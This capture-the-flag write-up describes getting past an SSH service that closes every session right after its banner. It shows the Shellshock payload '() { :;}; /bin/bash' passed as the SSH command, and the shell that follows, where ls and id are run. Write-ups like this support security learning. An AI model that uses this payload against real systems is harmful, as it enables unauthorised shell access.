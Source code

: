 ```bash
$ ssh -i /home/maki/Documents/chall/imtld/netrunnners/priv.key puppet-master@51.75.202.113 -p 2021   

.___..___.___..__..___..___ __ .  .
  _/ [__   |  [__]  |  [__ /  `|__|
./__.[___  |  |  |  |  [___\__.|  |


Do not use Zetatech maintenance interface if you are not authorized by Zetatech Corporation.


████████████████████████████ CONNECTION ESTABLISHED ████████████████████████████


----------------------------- General Informations -----------------------------

Software Version     ::: 10.5.2546_b1 [OBSOLETE]
Client ID            ::: 1534D 4245 97554 P

General health       ::: [ALIVE]

Management interface ::: [ONLINE]
Maintenance link     ::: [ONLINE]



----------------------- Installed Cybernetic Prosthetics -----------------------

Zetatech Neural Processor MK.II   ::: [CONNECTION ERROR]
Zetatech Enforcement 10.A Sidearm ::: [NOT CONNECTED]
Zetatech Binoculars BT.4          ::: [NOT CONNECTED]


Connection to 51.75.202.113 closed.
```

Ok, the server is printing the above message and immediatly close the ssh connection.

### Exploitation

In this challenge, you have to find a way to keep the session open. I first tried to use `-N` parameter of SSH, but it doesn't work.

So I asked to Google: http://lmgtfy.com/?q=ssh+immediate+disconnection+ctf

And finally found this writeup: https://securitybytes.io/vulnhub-com-tr0ll2-ctf-walkthrough-9993042f8af8

So, go on, I tried with a Shellshock payload:

```bash
$ ssh -i /home/maki/Documents/chall/imtld/netrunnners/priv.key puppet-master@51.75.202.113 -p 2021 '() { :;}; /bin/bash'

.___..___.___..__..___..___ __ .  .
  _/ [__   |  [__]  |  [__ /  `|__|
./__.[___  |  |  |  |  [___\__.|  |


Do not use Zetatech maintenance interface if you are not authorized by Zetatech Corporation.
ls
client.note
status.sh
tech.note
id
uid=1001(puppet-master) gid=1001(puppet-master) groups=1001(puppet-master)
```